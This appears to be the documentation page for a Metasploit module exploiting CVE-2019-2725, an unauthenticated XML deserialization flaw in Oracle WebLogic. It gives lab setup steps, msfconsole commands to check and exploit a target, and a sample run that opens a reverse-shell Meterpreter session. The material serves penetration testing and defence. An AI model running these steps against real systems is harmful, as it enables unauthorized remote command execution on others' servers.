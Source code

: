 ## Vulnerable Application

CVE-2019-2725 exploits an XML deserialization vulnerability in Oracle WebLogic via the AsyncResponseService component.
The exploit provides an unauthenticated attacker with remote arbitrary command execution.

Oracle Weblogic runs as a Java-based service in Windows, Linux, and Unix environments.
It is downloadable from Oracle once registered for an account.
For testing vulnerable environments, we used Weblogic 10.3.6 for Ubuntu (`wls1036_linux32.bin`),
Weblogic 10.3.6 for Windows (`wls1036_dev.zip`).
For testing a non-vulnerable environment, we used Weblogic 12.2.1.2 (`fmw_12.2.1.2.0_wls.jar`)
in combination with a JDK (`jdk-8u211-windows-x64.exe`).

## Verification Steps

### Install the application

  1. Install the application using the binaries above, with both a WebLogic server and an admin server.
  2. When prompted, name the project `base_domain`.
  3. When prompted, use a development environment instead of a production environment.
  4. When prompted, keep the default port of TCP/7001.
  5. When prompted, provide a username and password, and make a note of them.
  6. Upon completion of the installer, find and execute the admin server.
  On Windows:
  `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd`.
  On Linux: `~/Oracle/Middleware/user_projects/base_domain/bin/startWebLogic.sh`
  7. You may be prompted for the username and password you generated during the install process.
  8. Wait for the output: `<Server state changed to RUNNING.>`

### Checking for the vulnerability

  1. Start msfconsole
  2. `use exploit/multi/misc/weblogic_deserialize_asyncresponseservice`
  3. Configure RHOSTS to the target address, and set RPORT if the default port is not being used.
  4. Run the `check` method to confirm exploitability.
  5. Look for the following output:

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > check
[+] 172.16.135.128:8088 - The target is vulnerable.
```

### Exploiting the vulnerability

  1. Follow the steps in the previous "checking" section.
  2. Set the operating system of the target (eg. `set TARGET Windows`)
  3. Configure the payload and payload parameters.
  4. `run`

## Options

### TARGETURI
Set this to the AsyncResponseService uri, normally it should be `/_async/asyncresponseservice`.

## Scenarios

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Generating payload...
[*] Sending payload...
[*] Sending stage (179779 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49266) at 2019-05-22 14:16:03 -0500

meterpreter >
```
